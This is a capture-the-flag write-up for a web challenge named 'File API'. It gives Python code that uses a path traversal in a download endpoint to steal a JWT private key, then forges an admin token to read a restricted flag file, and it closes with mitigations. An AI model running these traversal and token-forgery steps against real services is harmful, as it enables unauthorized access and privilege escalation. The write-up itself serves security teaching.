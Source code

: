 # File API - CTF Challenge Writeup

**Challenge Name:** File API  
**Category:** Web Security  
**Description:** "No source provided. GLHF :)"

## Challenge Overview

The File API challenge presents a REST API with JWT-based authentication and file download functionality. The goal is to access a restricted `flag.txt` file that requires elevated privileges.

## Initial Reconnaissance

### API Endpoints Discovery

Accessing the challenge URL reveals several key endpoints:

![Screenshot](./Images/OpenAPI%20UI.png)

- `GET /` - Root endpoint
- `GET /docs` - Swagger UI documentation
- `GET /openapi.json` - OpenAPI specification
- `POST /api/register` - User registration
- `POST /api/login` - User authentication
- `GET /api/me` - Current user information
- `GET /api/files` - List available files
- `GET /api/download?file=<filename>` - Download files (requires authentication)

### API Analysis

The OpenAPI specification reveals:

- JWT-based authentication using Bearer tokens
- File download functionality with a `file` parameter
- Security schemes using HTTPBearer

## Exploitation Process

### Step 1: Authentication and File Enumeration

First, I created a user account and authenticated to obtain a JWT token:

```python
import requests
import uuid

BASE = "https://xwivtpjs.web.ctf.uscybergames.com"
s = requests.Session()

# Register and login
username = f"ctf_{uuid.uuid4().hex[:8]}"
password = uuid.uuid4().hex

s.post(f"{BASE}/api/register", json={"username": username, "password": password})
r = s.post(f"{BASE}/api/login", json={"username": username, "password": password})
token = r.json()["access_token"]
s.headers["Authorization"] = f"Bearer {token}"
```

### Step 2: JWT Token Analysis

Examining the JWT token from `/api/me` revealed crucial information:

```json
{
  "sub": "ctf_b1ac62e6",
  "role": "user", 
  "kid": "/app/secrets/jwtRS256.key"
}
```

**Key Observations:**

- Current role is `user` (likely need `admin` for flag access)
- `kid` parameter exposes the JWT signing key location: `/app/secrets/jwtRS256.key`

### Step 3: File Discovery

The `/api/files` endpoint revealed three files:

- `flag.txt` (25 bytes, **restricted**: true) ← Target file
- `readme.txt` (20 bytes, restricted: false)
- `swagger.json` (6498 bytes, restricted: false)

Attempting to download `flag.txt` returned `403 Forbidden`, confirming insufficient privileges.

### Step 4: Path Traversal Attack

The `kid` parameter suggested the JWT signing key might be accessible. I tested path traversal on the `/api/download` endpoint:

```python
# Attempt to access the JWT signing key
r = s.get(f"{BASE}/api/download", params={"file": "../app/secrets/jwtRS256.key"})
```

**Success!** The path traversal vulnerability allowed access to the private key:

```
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCs+xUhk5MlLAs6
SdZ7aH4WH91qguB7ryhvrqeLwHUgr7AOv/Jn5vuBlo40+0kgqRK0BMoW5mo4fCDR
[... key content ...]
-----END PRIVATE KEY-----
```

### Step 5: JWT Forgery and Privilege Escalation

With the private key, I could forge a new JWT token with admin privileges:

```python
import jwt

private_key = """-----BEGIN PRIVATE KEY-----
[... extracted key ...]
-----END PRIVATE KEY-----"""

# Forge admin token
admin_payload = {
    "sub": "ctf_b1ac62e6",
    "role": "admin",  # Escalate privileges
    "kid": "/app/secrets/jwtRS256.key"
}

admin_token = jwt.encode(admin_payload, private_key, algorithm="RS256")
s.headers["Authorization"] = f"Bearer {admin_token}"
```

### Step 6: Flag Retrieval

With the forged admin token, I could successfully access the restricted flag file:

```python
r = s.get(f"{BASE}/api/download", params={"file": "flag.txt"})
flag = r.content.decode('utf-8')
print(f"FLAG: {flag}")
```

## Vulnerability Chain

This challenge demonstrated a chain of vulnerabilities:

1. **Information Disclosure**: JWT `kid` parameter exposed private key location
2. **Path Traversal**: `/api/download` endpoint allowed directory traversal (`../`)
3. **Cryptographic Key Exposure**: Private key was accessible through path traversal
4. **Insufficient Access Controls**: Role-based access could be bypassed with forged tokens

## Complete Exploit Code

```python
import requests
import jwt
import uuid

BASE = "https://xwivtpjs.web.ctf.uscybergames.com"
TIMEOUT = 10

# Extracted private key
private_key = """-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCs+xUhk5MlLAs6
[... full key content ...]
-----END PRIVATE KEY-----"""

s = requests.Session()
s.headers.update({"User-Agent": "file-api-client"})

# Create admin JWT payload
admin_payload = {
    "sub": "ctf_b1ac62e6",
    "role": "admin",
    "kid": "/app/secrets/jwtRS256.key"
}

# Forge admin token
admin_token = jwt.encode(admin_payload, private_key, algorithm="RS256")
s.headers["Authorization"] = f"Bearer {admin_token}"

# Download flag
r = s.get(f"{BASE}/api/download", params={"file": "flag.txt"}, timeout=TIMEOUT)
flag = r.content.decode('utf-8', 'ignore')
print(f"FLAG: {flag}")
```

## Lessons Learned

1. **Never expose sensitive paths in JWT claims** - The `kid` parameter should not reveal filesystem paths
2. **Implement proper path validation** - File download endpoints must prevent directory traversal
3. **Secure key storage** - Private keys should never be accessible via web endpoints  
4. **Defense in depth** - Multiple security layers prevent single-point-of-failure exploits

## Mitigation Strategies

- **Input Validation**: Sanitize file paths and reject `../` sequences
- **Allowlisting**: Only permit downloads from designated directories
- **Key Management**: Store private keys outside web-accessible paths
- **JWT Security**: Use key IDs that don't expose internal paths
- **Access Controls**: Implement robust authorization checks that can't be bypassed

This challenge excellently demonstrated how seemingly minor information leaks can lead to complete system compromise through vulnerability chaining.